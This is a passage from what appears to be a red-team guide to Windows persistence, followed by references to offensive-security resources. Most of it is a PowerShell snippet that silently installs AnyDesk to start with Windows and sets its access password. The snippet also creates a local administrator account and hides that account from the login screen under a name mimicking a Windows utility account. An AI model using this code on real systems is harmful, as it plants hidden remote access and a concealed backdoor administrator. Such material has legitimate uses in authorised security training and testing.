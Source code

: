 ```powershell
    Start-Process -FilePath $file -NoNewWindow -Credential $credential -ArgumentList("--install", $anydesk_folder, "--start-with-win", "--slient")
    cmd.exe /c echo $password_cmd | $file --set-password

    New-LocalUser -Name $username -Password $password
    Add-LocalGroupMember -Groups Administrators -Member $username
    Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -Name WDAGUtilltyAccount -Type DWord -Value 0

    Start-Process -FilePath $file -NoNewWindow -Credential $credential -ArgumentList("--get-id")
}

AnyDesk
```

---
## References

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

- [OSCP Journey Part 9.0 (Windows Post Exploitation Enabling RDP Manually)](https://www.youtube.com/watch?v=ZTynRqgncyc)

- [Microsoft Documentation: Change the listening port for Remote Desktop on your computer](https://learn.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/change-listening-port)

- [Zweilosec: Windows RedTeam Persistence](https://zweilosec.gitbook.io/hackers-rest/windows-1/windows-redteam/persistence)

- [Persistence Info](https://persistence-info.github.io/)